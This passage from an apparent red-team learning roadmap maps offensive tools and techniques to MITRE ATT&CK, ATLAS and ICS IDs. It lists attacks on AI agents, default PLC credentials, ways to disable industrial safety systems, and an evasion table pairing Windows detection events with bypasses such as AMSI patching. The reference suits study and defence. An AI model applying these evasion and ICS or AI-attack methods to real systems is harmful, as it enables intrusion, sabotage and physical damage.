| Sliver | T1071.001/4, T1090.002/4, T1573 | C2 |
| dnscat2 | T1071.004, T1048.003 | C2, Exfiltration |
| Donut | T1027.009, T1620 | Defense Evasion |
| sRDI | T1620, T1055.001 | Defense Evasion |
| SysWhispers3 | T1106, T1027.007 | Defense Evasion |
| Ekko / Foliage / Cronos | T1027 (sleep obfuscation, in-memory encryption) | Defense Evasion |
| UACME | T1548.002 | Privilege Escalation |
| HEVD | T1068 | Privilege Escalation (kernel exploit practice) |
| LOLDrivers (RTCore64/DBUtil) | T1543.003 + T1562.001 (BYOVD) | Defense Evasion, Priv Esc |
| GraphRunner | T1213.002, T1114.002, T1526 | Collection (M365) |
| MailSniper | T1114.002 | Collection (Exchange) |
| AADInternals | T1528, T1606.002, T1556 | Credential Access (Azure) |
| ROADtools | T1528, T1087.004 | Credential Access (Azure) |
| Coercer.py | T1187 | Credential Access |
| PetitPotam | T1187 | Credential Access |
| rclone | T1567.002, T1020 | Exfiltration |
| Flipper Zero | T1200, T1091 | Initial Access (physical), Hardware |
| LaZagne | T1555.003/4, T1552.001 | Credential Access |
| hashcat | T1110.002 | Credential Access (offline cracking) |
| AFL++ | T1587.004 | Resource Development (exploit dev) |
| Ghidra / IDA Free | T1587.004, RE tooling | Resource Development |
| Volatility3 | Forensic analysis of T1003.001 | Malware Analysis |
| Kerbrute | T1110.003, T1558.003 | Credential Access |
| Coercer / DFSCoerce | T1187 | Credential Access |
| pywhisker | T1649 (Shadow Credentials) | Credential Access |
| TimeroastPy | T1558.003 (computer account variant) | Credential Access |
| kAFL / Nyx | T1587.004, T1211 | Resource Development (hypervisor/kernel fuzzing) |
| Syzkaller | T1587.004, T1068 | Resource Development (syscall kernel fuzzing) |
| WinDbg (KDNET) | T1068, T1211 | Privilege Escalation, Defense Evasion |
| d8 / SpiderMonkey | T1211, T1190 | Execution, Defense Evasion (JIT research) |
| Proxmark3 RDV4 | T1200, T1557 | Initial Access, Credential Access (RFID/NFC) |
| HackRF One / RTL-SDR | T1557, T1001 | Initial Access, Exfiltration (RF interception) |
| Chisel / WireGuard | T1090.001, T1572, T1573.001 | Command and Control, Exfiltration (covert dropboxes) |
| MicroSIP / Linphone | T1566.004, T1598 | Initial Access, Reconnaissance (vishing/social engineering) |
| Sparrows / Lishi Decoders | T1200 | Initial Access (physical covert entry) |

---

## 19. MITRE ATLAS: AI/ML Attack Techniques

> MITRE ATLAS (Adversarial Threat Landscape for AI Systems) is a separate knowledge base from Enterprise ATT&CK. These are ATLAS IDs, not Enterprise T-numbers. Reference: https://atlas.mitre.org

ATLAS techniques apply to Phase 4F and beyond when targeting AI-powered applications and ML pipelines.

<table><tr><td>



</td></tr></table>

### ATLAS Technique Reference

| Technique | ATLAS ID | Correct Enterprise Analog | Roadmap Phase | Description |
|---|---|---|---|---|
| LLM Prompt Injection (Direct) | AML.T0051 | T1059 (command execution, not an exact match) | 4F | Inject instructions directly into LLM input to override system prompt behavior |
| LLM Prompt Injection (Indirect) | AML.T0051 | T1195 (supply chain injection, not exact) | 4F | Malicious content in retrieved documents or tools causes LLM to execute attacker instructions |
| LLM Meta Prompt Extraction | AML.T0056 | T1552 (unsecured credential analog) | 4F | Craft queries to cause the LLM to reveal its system prompt and configuration |
| Poison Training Data | AML.T0054 | T1195.001 (dependency compromise analog) | 4F | Inject malicious data into training set to alter model behavior at inference |
| RAG Poisoning | AML.T0054 | T1195 | 4F | Poison the vector database or retrieval index to inject attacker content into LLM context at query time |
| Agent Hijacking | AML.T0051 + Tool Abuse | NOT T1071 (see note below) | 4F | Compromise an LLM agent's tool-calling chain via indirect injection to execute unintended actions |
| Model Exfiltration via API | AML.T0024 | T1190 (API abuse analog) | 4F | Repeated inference queries to extract model weights or replicate model capability |
| WIF / OAuth Token Theft | T1528 | T1528 (this IS Enterprise ATT&CK) | 4F | Steal Workload Identity Federation tokens from GCP/AWS metadata to impersonate service accounts |
| CI/CD OIDC Token Theft | T1552.004 | T1552.004 (this IS Enterprise ATT&CK) | 4H | Steal GitHub Actions OIDC tokens during pipeline execution for cloud impersonation |

> **Correction note (vs previous version):** Agent Hijacking was previously mapped to T1071 (Application Layer Protocol). T1071 describes C2 communication protocols (HTTP, DNS). It has nothing to do with AI agent manipulation. Agent hijacking via indirect prompt injection is an ATLAS technique with no precise Enterprise ATT&CK equivalent yet. The closest Enterprise analogs are T1059 (command execution) or T1190 (exploit public-facing application), but neither fully describes the technique. MITRE ATLAS is the correct framework for AI attack techniques.

---

## 20. ICS ATT&CK Quick Reference

> ICS ATT&CK is a separate MITRE matrix for Industrial Control Systems (OT/SCADA environments). Reference: https://attack.mitre.org/matrices/ics/

Relevant for Phase 4G work with OpenPLC, Modbus, EtherNet/IP, Siemens S7, and CAN bus targets.

<table><tr><td>



</td></tr></table>

| Technique | ICS ATT&CK ID | Phase | Tool / Method | Impact |
|---|---|---|---|---|
| Unauthorized Command Message | T0855 | 4G | pymodbus write_coil, STEP 7 packet craft, Flipper Zero | Force actuator to unintended state |
| Modify Parameter | T0836 | 4G | Modbus FC16 write holding registers, EtherNet/IP explicit messaging | Change setpoints (temperature, pressure, flow rate) |
| Modify Control Logic | T0833 | 4G | Upload malicious ladder logic via OpenPLC web UI | Alter process behavior covertly without operator awareness |
| Remote System Information Discovery | T0888 | 4G | Nmap NSE Redpoint scripts (s7-info, modbus-discover, enip-info) | Map OT network topology and device types |
| Default Credentials | T0812 | 4G | Default PLC creds: admin/admin, rockwell/rockwell, admin/(blank) | Authentication bypass on PLC web interface |
| Spearphishing Attachment | T0865 | 4G | Engineering workstation targeted phishing (ICS-specific doc with Step 7 project) | Access to EWS with SCADA software installed |
| Manipulation of Control | T0831 | 4G | False data injection to sensor readings (override process values) | Suppress alarms while physically damaging equipment |
| Denial of Control | T0813 | 4G | Flood Modbus with illegitimate requests (DoS at protocol level) | Deny legitimate operator control of industrial process |
| Loss of Safety | T0837 | 4G | Disable safety instrumented system (SIS) PLC response or logic | Remove safeguards enabling physical damage or injury |
| Rogue Master | T0848 | 4G | Attacker-controlled Modbus master on OT segment (SocketCAN, pymodbus) | Impersonate legitimate PLC master |
| Activate Firmware Update Mode | T0800 | 4G | Trigger DFU/bootloader mode on embedded device for firmware replacement | Persistent implant in field device firmware |
| CAN Bus Injection | T0855 (automotive ICS analog) | 4G | SocketCAN candump / cansend, Flipper Zero CAN module | Control or disrupt automotive/embedded CAN-connected systems |
| Lateral Movement (OT) | T0812 + T0886 | 4G | Pivot from historian to PLC via native SCADA protocol (Modbus, S7comm) | Access deeper OT network segments and control systems |

> **Correction note (vs previous version):** CAN Bus Injection was previously listed as "N/A" for MITRE ID. CAN bus attacks in industrial/automotive contexts map to **T0855** (Unauthorized Command Message) in ICS ATT&CK, which covers sending unauthorized commands over industrial communication buses. For automotive-specific CAN: MITRE's ICS ATT&CK covers OT/embedded systems broadly. The technique is not "N/A": it maps to T0855 and T0831 depending on intent (unauthorized command vs process manipulation).

---

## 21. Detection Signal Index

A fast-reference guide to the specific log sources, event IDs, and telemetry signals defenders use to catch each tactic. This is your evasion planning reference.

<table><tr><td>



</td></tr></table>

### Critical Event ID Reference

| Event ID | Log | Source | What It Catches |
|---|---|---|---|
| 4624 | Security | DC/Workstation | Logon success (Type 3=network, 10=RDP, 9=PtH explicit, 2=interactive) |
| 4625 | Security | DC/Workstation | Logon failure (source of brute force / spray detection) |
| 4648 | Security | Workstation | Explicit credential logon (runas, PtH, token manipulation) |
| 4662 | Security | DC | Object access with permissions (DCSync: DS-Replication-Get-Changes-All GUIDs) |
| 4688 | Security | System-wide | Process creation with command line (requires Audit Process Creation + command line policy) |
| 4698 | Security | Workstation | Scheduled task created |
| 4720 | Security | DC | User account created |
| 4740 | Security | DC | Account locked out (password spray indicator: many accounts in short window) |
| 4769 | Security | DC | Kerberos service ticket requested (RC4 type 0x17 = Kerberoasting indicator) |
| 4768 | Security | DC | Kerberos TGT requested (AS-REP: no preauth. Golden Ticket: anomalous PAC) |
| 4771 | Security | DC | Kerberos pre-auth failed (AS-REP roasting attempt indicator) |
| 4776 | Security | DC | NTLM authentication attempt (PtH detection, NTLM relay source) |
| 4886 | Security | ADCS | Certificate requested and issued (ADCS ESC attack detection) |
| 5136 | Security | DC | AD object attribute modified (Shadow Credentials: msDS-KeyCredentialLink) |
| 5140 | Security | Workstation | Network share accessed (ADMIN$, C$ access = lateral movement indicator) |
| 7045 | System | Service Control Manager | New service installed (BYOVD, psexec, malicious service) |
| 1102 | Security | System-wide | Audit log cleared (T1070.001) |
| 4104 | PowerShell | System-wide | Script block execution logged (requires GPO: Turn on Script Block Logging) |
| 1 | Sysmon | System-wide | Process creation with full command line, parent, hashes |
| 3 | Sysmon | System-wide | Network connection (destination IP, port, process) |
| 6 | Sysmon | System-wide | Driver loaded (BYOVD: unsigned or vulnerable driver) |
| 7 | Sysmon | System-wide | Image (DLL) loaded with signature check (injection DLL, reflective load) |
| 8 | Sysmon | System-wide | CreateRemoteThread (process injection detection) |
| 10 | Sysmon | System-wide | Process access (LSASS read = credential dump. EDR OpenProcess = tool kill) |
| 11 | Sysmon | System-wide | File creation (dropper, web shell, staged archive) |
| 12/13 | Sysmon | System-wide | Registry object added/value set (Run key, COM hijack, LSA package) |
| 17/18 | Sysmon | System-wide | Named pipe created/connected (SMB C2 beacon) |
| 19/20/21 | Sysmon | System-wide | WMI filter/consumer/binding created (WMI persistence) |
| 22 | Sysmon | System-wide | DNS query (C2 beaconing over DNS, DGA patterns) |
| 25 | Sysmon | System-wide | Process tampering (process hollowing: image mismatch in memory) |
| 28 | Sysmon | System-wide | Clipboard change (clipboard data theft) |

### Evasion Mapping: Detection to Bypass

| Detection Signal | Technique Caught | Evasion Approach |
|---|---|---|
| Sysmon 10: lsass.exe open with PROCESS_VM_READ | Mimikatz, procdump targeting lsass | nanodump (kernel driver dump), dump via shadow copy VSS, SSP injection (no direct lsass handle) |
| Event 4769 RC4 service ticket (type 0x17) | Kerberoasting | Request AES tickets: Rubeus kerberoast /rc4opsec (only targets accounts supporting RC4) |
| Event 4662 DS-Replication-Get-Changes-All from non-DC | DCSync | Use Golden Ticket instead (no network DRS traffic from workstation) |
| Sysmon 8: CreateRemoteThread to target process | Standard DLL injection (T1055.001) | APC injection (T1055.004), Early Bird APC, KernelCallbackTable injection (no CreateRemoteThread) |
| Event 4104: AMSI scan on PowerShell | PowerShell download cradle | Patch AmsiScanBuffer before running (T1562.001). Use execute-assembly with pre-compiled .NET |
| ETW telemetry gap in EDR | ETW patch (T1562.006) | Per-provider ETW disable via EtwpRegistrationEntry manipulation: less visible than blanket patch |
| Sysmon 7: unsigned DLL loaded from unexpected path | Reflective DLL load, sRDI | Module stomping: overwrite existing mapped module section. No new DLL mapping event fired |
| Event 4698: scheduled task created | Task-based persistence | COM object hijack (T1546.015), WMI subscription (T1546.003), Run key in obscure location |
| Sysmon 22: DNS query burst to unusual domains | DNS C2 beaconing | DNS-over-HTTPS (DoH) through legitimate resolvers (1.1.1.1, 8.8.8.8). Bypass DNS logging |
| Event 7045: new service installed | BYOVD driver load, psexec | Load driver via existing legitimate service (hijack), use pre-existing vulnerable driver already on the system |
| Sysmon 25: process tampering (image mismatch) | Process hollowing | Process doppelganging (T1055.013), thread hijacking (T1055.003): no NtUnmapViewOfSection |
| Sysmon 6: driver loaded, not signed by Microsoft | BYOVD initial load | Use driver signed by expired/revoked EV cert (some EDRs don't catch expired at load time). Exploit driver-less kernel write gadget |

---

*MITRE ATT&CK Quick Reference -- Part of The BlackHAT Roadmap v0.2.0 (0 to GREATEST)* 
*Enterprise ATT&CK: https://attack.mitre.org | ICS ATT&CK: https://attack.mitre.org/matrices/ics/ &nbsp;| ATLAS: https://atlas.mitre.org* 
*Always verify technique IDs at attack.mitre.org before operational use: the framework updates quarterly.*

